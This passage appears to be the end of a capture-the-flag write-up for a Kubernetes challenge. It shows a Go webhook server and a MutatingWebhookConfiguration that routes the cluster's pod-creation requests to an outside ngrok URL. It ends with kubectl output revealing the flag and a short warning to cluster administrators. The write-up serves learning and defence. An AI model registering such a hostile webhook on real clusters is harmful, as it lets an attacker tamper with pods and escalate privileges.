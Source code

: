 ```go
		fmt.Fprintf(os.Stderr, "error creating webhook handler: %s", err)
		os.Exit(1)
	}
	logger.Infof("Listening on :8443")
	err = http.ListenAndServe(":8443", whHandler)
	if err != nil {
		fmt.Fprintf(os.Stderr, "error serving webhook: %s", err)
		os.Exit(1)
	}
}
```

Now we need the kubernetes server to connect to our API, we can use the `url` param under the declaration for pointing it to an ngrok server that redirects to localhost.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: mutatepod
  # labels: {} # managed by kustomize
webhooks:
- name: mutatepod.xtylez.scaven
  failurePolicy: Ignore
  reinvocationPolicy: IfNeeded
  matchPolicy: Equivalent
  sideEffects: None
  timeoutSeconds: 5
  admissionReviewVersions: ["v1"]
  clientConfig:
    url: "https://151c-88-13-163-201.ngrok-free.app/mutate"
  rules:
  - operations: ["CREATE", "UPDATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
    scope: Namespaced
```

After deploying it, we wait until the webhook gets triggered. We can see in the logs of the webhook server that it has been triggered, we check the logs of the pod and...

```bash
$ kubectl logs -n flag-reader flag-reader
Executing cat /flag/flag...
flag{get_those_ga1nz}

Shutting down...
```

We got the flag.

## Conclusions

Kubernetes system administrators have to be very careful about giving specific resource permissions because it could lead to a cluster privilege scalation very quickly.
It has been a very interesting challenge which could be used in a real world scenario.
